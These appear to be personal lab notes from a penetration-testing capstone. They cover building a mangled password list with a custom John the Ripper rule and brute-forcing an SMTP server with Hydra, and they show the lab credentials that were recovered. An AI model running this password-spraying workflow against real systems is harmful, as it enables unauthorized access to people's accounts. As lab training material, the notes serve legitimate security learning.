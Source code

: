 
### Domain
Add domain to end of every [[Web 10.200.X.13 (80)#Create a file with the names (users.txt)]]
```
sed -i 's/$/@corp.thereserve.loc/' users.txt
```

### Custom rules
- Add the following to the bottom of john.conf.
```
	#Custom Rules

	[List.Rules:Capstone]

	Az"[0-9]" $[!@#%^]
```

- Run the following command to create a mangled passwords file.
```
	john --wordlist=password_base_list.txt --rules=Capstone --stdout > mangled-passwords.txt

```

### HYDRA
Getting some email's credentials .
```
hydra -L users.txt -P mangled-passwords.txt smtp://10.200.103.11 -V -o smtp-results.txt

cat smtp-results.txt
```
[25][smtp] host: 10.200.103.11   
login: laura.wood@corp.thereserve.loc   
password: Password1@

[25][smtp] host: 10.200.103.11   
login: mohammad.ahmed@corp.thereserve.loc   
password: Password1!
